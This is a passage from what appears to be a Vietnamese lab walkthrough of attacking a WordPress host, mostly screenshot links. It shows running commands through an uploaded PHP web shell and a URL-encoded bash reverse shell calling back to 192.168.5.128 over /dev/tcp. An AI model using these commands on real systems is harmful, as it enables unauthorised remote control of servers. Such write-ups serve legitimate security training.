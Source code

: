 ![alt text](image-13.png)

Truy cập vào đường dẫn chứa shell php đã upload nên và thực thi câu lệnh

```bash
http://192.168.5.136/wp-admin/test_webshell.php?cmd=whoami
```

![alt text](image-14.png)
![alt text](image-15.png)
Mã hóa url payload này  

```bash
bash -c 'bash -i >& /dev/tcp/192.168.5.128/293 0>&1'
``` 

Thành 

```bash
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.5.128%2F293%200%3E%261%27
```

Rồi chèn vào cmd 
![alt text](image-16.png)
